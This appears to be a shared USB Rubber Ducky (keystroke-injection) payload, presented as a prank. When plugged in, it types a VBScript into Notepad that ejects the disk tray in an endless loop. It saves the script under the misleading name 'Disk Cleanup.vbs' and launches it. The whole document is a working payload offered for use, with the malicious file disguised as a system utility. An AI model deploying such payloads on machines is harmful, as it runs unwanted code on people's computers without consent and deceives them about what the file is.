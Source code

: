 Author: Windy42

Description: This will make an .exe that will open the disk tray over and over again.

Note: I do not take all credit for writing this, the prank has been written many times I just converted it into a Payload.

```
GUI d
DELAY 300
GUI r
STRING notepad
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7")
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING if colCDROMs >= 1 then
ENTER
STRING For i = 0 to colCDROMs.Count - 1
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING Next
ENTER
STRING End If
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL s
DELAY 100
STRING %userprofile%\Disk Cleanup.vbs
ENTER
DELAY 200
ALT F4
DELAY 100
GUI d
DELAY 100
STRING Disk Cleanup.vbs
ENTER
```